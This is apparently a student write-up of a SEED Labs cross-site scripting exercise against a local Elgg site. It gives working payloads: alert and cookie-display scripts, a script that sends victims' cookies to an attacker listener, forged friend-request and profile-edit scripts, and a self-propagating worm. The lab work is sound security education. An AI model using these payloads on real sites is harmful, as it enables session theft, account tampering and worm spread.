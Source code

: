 # Cross_Site_Scripting_Attack-SEED_LAB-

2 VMs:

. attacker: 10.0.2.15
. server: 10.0.2.4

Edit the DNS record in /etc/hosts on the attacker:

  10.0.2.4       www.xsslabelgg.com

Read the file /etc/apache2/sites-available/000-default.conf:

	<VirtualHost *:80>
	        ServerName http://www.xsslabelgg.com
	        DocumentRoot /var/www/XSS/Elgg
	</VirtualHost>

It shows that the sources of website http://www.xsslabelgg.com are hosted in /var/www/XSS/Elgg



#Task 1

For Firefox, Web Developer -> Network is also useful.


#Task 1.1


Log in with account alice and password seedalice, then edit Brief description module in Profile as:

	<script>
	  alert("XSS");
	</script>

And save it.

Now, access http://www.xsslabelgg.com/profile/alice from either the server or the attacker, an alert prompts:



![alt text](https://github.com/bilalhassan789/Lab09-SEED-1.0-Cross-Site-Scripting-Attack-Lab-1/blob/main/1.png)



#Task 2


Edit the Brief description module and save:


  <script>
	  alert(document.cookie);
	</script>


When accessing the profile page, it will show the cookie of the log-in user.
When Boby opens the page, it will be

![alt text](https://github.com/bilalhassan789/Lab09-SEED-1.0-Cross-Site-Scripting-Attack-Lab-1/blob/main/2.png)

For Alice herself:

![alt text](https://github.com/bilalhassan789/Lab09-SEED-1.0-Cross-Site-Scripting-Attack-Lab-1/blob/main/3.png)

#Task 3

Edit the Brief description as:

	<script>
	  document.write(
	    "<img src=http://10.0.2.15:5555?c=" + escape(document.cookie) + " >"
	  );
	</script>

It will send an HTTP GET request to the port 5555 on the attacker with document.cookie whenever the profile page is accessed by any victim user.

Then listen on the port 5555 on the attacker machine:

	nc -l 5555 -v

Once visiting the profile page ( http://www.xsslabelgg.com/profile/alice) from VM 10.0.2.4, then it will appear on the attacker:


![alt text](https://github.com/bilalhassan789/Lab09-SEED-1.0-Cross-Site-Scripting-Attack-Lab-1/blob/main/4.png)



#Task 4

Try to log in as alice and add samy as a friend, during the process, network tool captures the request:

HTTP header:


Request URL: http://www.xsslabelgg.com/action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ
GET /action/friends/add?friend=47&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ&__elgg_ts=1589608177&__elgg_token=VSvUwjnd17FwcB4BXzuRzQ HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/samy
X-Requested-With: XMLHttpRequest
Cookie: Elgg=5tqs9f0im6vp35cr2cva0lpvp4
Connection: keep-alive

So construct the payload that forges the user's friend request as:

  <script type="text/javascript">
  window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl =
      "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax = new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send();
  };
</script>

Log in with username samy and password seedsamy.

Add the code above in Profile -> About me by edit html mode.

Now on the VM 10.0.2.4, sign in as Boby and visit Samy's profile(http://www.xsslabelgg.com/profile/samy), without any extra action, just refresh the page, it shows that Samy is already your (i.e. Boby) friend.



#Task 5



When editing a user's (Alice) own profile legally, the network tool captures such an HTTP POST request:

Request URL: http://www.xsslabelgg.com/action/profile/edit
__elgg_token=VSvHyrizEfLuFJUoNPOQXg
__elgg_ts=1589672946
name=Alice
description=<p>dsadsa</p>
accesslevel[description]=2
briefdescription=dasasda
accesslevel[briefdescription]=2
location
accesslevel[location]=2
interests
accesslevel[interests]=2
skills
accesslevel[skills]=2
contactemail
accesslevel[contactemail]=2
phone
accesslevel[phone]=2
mobile
accesslevel[mobile]=2
website
accesslevel[website]=2
twitter
accesslevel[twitter]=2
guid=44
POST /action/profile/edit HTTP/1.1
Host: www.xsslabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.xsslabelgg.com/profile/alice/edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 505
Cookie: Elgg=ruji2rg6eu80rqj6oebqt57ga7
Connection: keep-alive
Upgrade-Insecure-Requests: 1

Then edit Samy's profile and figure out his guid as 47


![alt text](https://github.com/bilalhassan789/Lab09-SEED-1.0-Cross-Site-Scripting-Attack-Lab-1/blob/main/5.png)

Now we want to modify the about me module in the profile of someone as "modified by Samy" if he/she visits Samy's profile page. Save the code below as Samy's profile:


<script type="text/javascript">
  window.onload = function () {
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token
    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var description =
      "&description=<p>modified by Samy<p>" + "&accesslevel[description]=2";
    //Construct the content of your url.
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script>

Then, visit Samy's profile using Boby's account. Boby's profile is modified at once:



![alt text](https://github.com/bilalhassan789/Lab09-SEED-1.0-Cross-Site-Scripting-Attack-Lab-1/blob/main/6.png)



#Task 6

To make the code in Task 5 self-propogating:

###DOM Approach
Do some subtle modification based on the code in Task 5:

<script type="text/javascript" id="worm">
  window.onload = function () {
    var headerTag = '<script id="worm" type="text/javascript">';
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    //JavaScript code to access user name, user guid, Time Stamp __elgg_ts
    //and Security Token __elgg_token

    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    var description =
      "&description=<p>modified by Samy<p>" +
      wormCode +
      "&accesslevel[description]=2";
    //Construct the content of your url.
    var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
    var content = userName + guid + ts + token + description;
    var samyGuid = 47;
    if (elgg.session.user.guid != samyGuid) {
      //Create and send Ajax request to modify profile
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
      Ajax.setRequestHeader(
        "Content-Type",
        "application/x-www-form-urlencoded"
      );
      Ajax.send(content);
    }
  };
</script>

Edit Boby's profile as the code above. Then sign-in as Boby to view his profile page, as expected, Boby is injected and shows "modified by Samy". Log-out and then log-in as Alice to view Boby's profile, now you can found that Alice's profile is also changed.
